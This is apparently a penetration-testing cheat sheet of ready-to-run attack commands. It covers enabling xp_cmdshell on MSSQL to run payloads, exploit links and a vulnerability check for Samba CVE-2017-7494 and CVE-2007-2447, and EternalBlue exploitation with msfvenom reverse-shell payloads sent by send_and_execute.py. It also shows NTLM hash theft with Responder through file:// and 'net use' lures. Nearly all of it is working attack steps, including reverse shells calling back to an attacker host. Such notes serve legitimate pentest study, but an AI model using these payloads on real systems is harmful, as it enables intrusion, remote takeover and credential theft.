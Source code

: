 ### from xp_cmdshell to shell (may see in AD env)
```bash
# If you are doing it against a host in different subnet, set up the proxy then execute with proxychians
sqsh -S IP -U DOMAIN_OR_HOST_NAME\\USER -P PASS
exec sp_configure ‘show advanced options’, 1;
reconfigure;
exec sp_configure ‘xp_cmdshell’, 1;
reconfigure;
\go
xp_cmdshell 'PAYLOAD';
\go
```

#### Samba Eternal Red
[Exploit 1](https://redteamzone.com/EternalRed/)

[Exploit 2](https://github.com/joxeankoret/CVE-2017-7494)

[Exploit 3](https://github.com/opsxcq/exploit-CVE-2017-7494)
``` bash
#check if the host is vulnerable
nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version –p445 IP 
```

#### Samba 3.0
[Exploit 1](https://github.com/amriunix/CVE-2007-2447)
[Exploit 2](https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851)
```bash 
# Create payload with
msfvenom -p cmd/unix/reverse_netcat LHOST=IP LPORT=PORT -f python
```

#### Eternal Blue
``` bash
#https://github.com/helviojunior/MS17-010
#Generate payload in exe format and use the send_and_execute.py
msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=IP LPORT=PORT -f exe -o payload.exe
python2 /opt/MS17-010/send_and_execute.py TARGET_IP payload.exe
# If this does not work, use the paylaod created by the following commands
msfvenom -p windows/x64/shell_reverse_tcp -a x64 LHOST=IP LPORT=443 -f raw -o sc_x64_payload.bin
nasm -f bin eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin
```

### Responder hash stealing
set responder
```
responder -I tun0
```
To launch the attack remotely, use `file://IP/file` instead of http/smb etc

To launch the attack locally (in a windows host), use `net use Y: \\KALI_IP\share`
